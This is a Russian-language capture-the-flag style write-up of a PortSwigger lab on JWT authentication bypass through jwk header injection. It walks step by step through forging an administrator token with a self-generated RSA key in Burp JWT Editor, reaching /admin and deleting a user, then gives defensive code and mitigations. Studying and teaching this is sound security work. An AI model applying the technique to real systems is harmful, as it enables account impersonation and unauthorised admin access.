








## Lab: JWT authentication bypass via jwk header injection

**Платформа:** PortSwigger Web Security Academy  
**Категория:** JWT (JSON Web Token)  
**Сложность:** Practitioner  
**Дата:** 2026-08-16

---

## TL;DR

Приложение использует JWT для аутентификации и поддерживает заголовок
`jwk`, позволяющий встраивать публичный ключ проверки подписи прямо
в токен. Сервер не проверяет, получен ли этот ключ из доверенного
источника, и слепо использует его для верификации подписи.

Сгенерировав собственную пару RSA-ключей, подписав токен приватным
ключом и встроив соответствующий публичный ключ в заголовок `jwk`,
удалось подменить пользователя на administrator, получить доступ
к `/admin` и удалить пользователя carlos.

---

## Описание уязвимости

JWT с алгоритмом RS256 подписывается приватным ключом сервера,
а проверяется соответствующим публичным ключом.

```
JWT = Header.Payload.Signature

Signature = RSA_Sign(
    Header.Payload,
    private_key
)

Verify = RSA_Verify(
    Signature,
    public_key
)
```

В норме публичный ключ для проверки должен браться из заранее
известного, доверенного источника (захардкоженный ключ, локальное
хранилище, доверенный JWKS-эндпоинт). Однако если сервер поддерживает
заголовок `jwk` и берёт ключ проверки прямо из него — проверка
превращается в бессмысленную операцию: атакующий предоставляет
одновременно и подпись, и ключ, которым эту подпись нужно проверять.

```
Получили JWT с заголовком jwk
        │
        ▼
Берём публичный ключ
прямо из заголовка jwk
        │
        ▼
Проверяем подпись этим же ключом
        │
        ▼
Подписи совпали?
        │
   Да ──┴── Нет
   │          │
JWT принят   401
```

Поскольку атакующий сам генерирует пару ключей и сам решает, какой
публичный ключ положить в заголовок, подпись всегда будет валидной —
серверу подсовывают ключ, специально подобранный под подпись.

---

## Разведка

### Шаг 1 — Получение JWT

Вошла в приложение под пользователем:

```
wiener:peter
```

Перехватила запрос к своему аккаунту.

```http
GET /my-account HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=<JWT>
```

В качестве значения cookie использовался JWT.


### Шаг 2 — Анализ заголовка токена

Декодировала JWT и увидела в заголовке:

```json
{
  "kid": "a33a2776-e6dc-4fd2-bb0d-8039b6da078d",
  "alg": "RS256"
}
```

Алгоритм асимметричный (RS256), значит для подписи нужен приватный
ключ сервера — напрямую подобрать его нельзя. Но так как сервер
поддерживает встраивание ключа через `jwk`, есть возможность
подсунуть собственный ключ вместо ожидания, что сервер найдёт
правильный по `kid`.


### Шаг 3 — Проверка доступа к панели администратора

Изменила путь запроса:

```http
GET /admin HTTP/2
Cookie: session=<JWT>
```

Сервер ответил отказом в доступе,
так как токен принадлежал пользователю wiener.


---

## Эксплуатация

### Шаг 4 — Генерация собственной пары RSA-ключей

В Burp Suite открыла расширение JWT Editor Keys → **New RSA Key**.

Параметры генерации:

```
Key Size: 2048
ID: оставлен автогенерированный UUID
```

Ключ сгенерирован и добавлен в список ключей JWT Editor.


### Шаг 5 — Подмена пользователя в payload

Открыла перехваченный запрос к `/my-account` во вкладке
**JSON Web Token**.

Изменила claim:

```json
{
  "sub": "administrator"
}
```



### Шаг 6 — Встраивание своего ключа и подпись токена

Внизу вкладки JSON Web Token нажала:

```
Sign → Attack → Embedded JWK
```

и выбрала только что сгенерированную RSA-пару.

JWT Editor автоматически:

- добавил публичный ключ в заголовок токена как `jwk`,
- подставил соответствующий `kid`,
- подписал токен приватным ключом сгенерированной пары.



Итоговый заголовок токена стал выглядеть примерно так:

```json
{
  "kid": "<новый kid, сгенерированный JWT Editor>",
  "typ": "JWT",
  "alg": "RS256",
  "jwk": {
    "kty": "RSA",
    "e": "AQAB",
    "kid": "<новый kid>",
    "n": "<модуль публичного ключа>"
  }
}
```

### Шаг 7 — Получение панели администратора

Отправила запрос с новым токеном:

```
GET /admin HTTP/2
Host: LAB-ID.web-security-academy.net
Cookie: session=<токен с embedded jwk>
```

Сервер взял публичный ключ прямо из заголовка `jwk`, проверил им
подпись — она совпала, так как ключ и подпись принадлежат одной
паре, сгенерированной атакующим. Токен принят как подлинный,
доступ к панели администратора получен.


### Шаг 8 — Удаление пользователя

Из HTML страницы получила ссылку:

```
GET /admin/delete?username=carlos
```

Отправила запрос.

Пользователь был удалён,
лабораторная работа успешно решена.


---

## Итог

```
JWT пользователя wiener
        │
        ▼
Генерация собственной RSA-пары
        │
        ▼
Изменение claim sub -> administrator
        │
        ▼
Attack -> Embedded JWK
(встраивание публичного ключа + подпись своим приватным)
        │
        ▼
GET /admin
        │
        ▼
Доступ администратора
        │
        ▼
Удаление пользователя carlos
```

### Почему разработчики делают такую ошибку

Поддержка `jwk` в заголовке задумывалась для удобных сценариев
(например, федерация ключей, динамическая ротация), но при этом
разработчики забывают, что доверять можно только тому ключу,
который сервер сам заранее знает или получает из проверенного,
контролируемого источника — а не тому, что прислал клиент внутри
самого токена.

```
Гибкая архитектура для ротации ключей
→ разработчик разрешает jwk в заголовке "для удобства"

Отсутствие whitelist источников ключей
→ сервер доверяет любому предоставленному ключу

Смешение "структурной валидности" токена
с "доверенностью" источника ключа
→ подпись валидна, но ключ — чужой/подставной
```

### Где встречается в реальности

```
Микросервисная архитектура
→ сервисы динамически принимают ключи от других сервисов через jwk/jku

SSO и федеративные системы
→ поддержка внешних JWKS для интеграции со сторонними IdP

Библиотеки JWT с "удобными" дефолтами
→ некоторые JWT-библиотеки по умолчанию поддерживают jwk/jku
  без встроенной проверки доверенности источника
```

Во всех этих случаях отсутствие строгой привязки к доверенному
источнику публичного ключа позволяет атакующему подделывать токены,
эскалировать привилегии и выдавать себя за любого пользователя,
включая administrator.

---

## Защита

```python
# УЯЗВИМО
# Сервер слепо берёт ключ проверки из заголовка jwk/jku токена
header = jwt.get_unverified_header(token)
public_key = extract_key_from_jwk(header["jwk"])  # ключ от атакующего
jwt.decode(token, public_key, algorithms=["RS256"])
```

```python
# БЕЗОПАСНО
# Ключ проверки берётся только из заранее известного,
# статически сконфигурированного источника
TRUSTED_PUBLIC_KEY = load_trusted_key_from_config()

jwt.decode(
    token,
    TRUSTED_PUBLIC_KEY,
    algorithms=["RS256"],  # алгоритм жёстко задан, не берётся из токена
)
```

Дополнительно:

- никогда не использовать `jwk`/`jku` из самого токена как источник
  ключа проверки;
- если поддержка `jku` необходима — ограничивать её строгим
  allowlist доверенных доменов;
- явно задавать ожидаемый алгоритм подписи на стороне сервера,
  не полагаясь на поле `alg` из заголовка токена;
- валидировать `kid` по строгому whitelist известных серверу
  ключей, без использования значения напрямую в путях/запросах/БД;
- хранить актуальные публичные ключи в защищённом, контролируемом
  хранилище, а не полагаться на данные, присланные клиентом.
